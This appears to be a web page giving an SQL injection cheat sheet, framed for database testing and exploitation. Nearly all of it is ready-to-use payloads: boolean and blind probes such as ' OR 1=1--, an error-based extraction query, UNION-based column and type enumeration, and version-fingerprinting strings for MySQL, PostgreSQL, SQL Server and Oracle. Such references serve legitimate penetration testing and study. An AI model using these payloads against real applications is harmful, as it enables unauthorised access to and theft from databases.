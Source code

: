```yaml
---
title: "SQL Injection Command Reference"
description: "Essential SQL injection payloads, techniques, and tools for database testing"
pubDate: 2025-07-18
categories: ["commands", "web-security", "testing", "database"]
---
```


# SQL Injection Command Reference

Essential payloads, techniques, and tools for SQL injection testing and exploitation.

## Basic Detection

### Boolean-Based Detection
```sql
# Test for SQL injection
' OR 1=1--
' OR 1=1#
' OR 1=1/*

# Test for blind injection
' AND 1=1--
' AND 1=2--

# Test for error-based
' AND (SELECT 1 FROM (SELECT COUNT(*),CONCAT(VERSION(),FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.TABLES GROUP BY x)a)--
```

### Union-Based Detection
```sql
# Find number of columns
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--

# Test data types
' UNION SELECT 'a',NULL,NULL--
' UNION SELECT NULL,'a',NULL--
' UNION SELECT NULL,NULL,'a'--
```

## Information Gathering

### Database Version
```sql
# MySQL
' UNION SELECT @@version--
' UNION SELECT VERSION()--

# PostgreSQL
' UNION SELECT version()--

# SQL Server
' UNION SELECT @@VERSION--

# Oracle
' UNION SELECT banner FROM v$version--
```
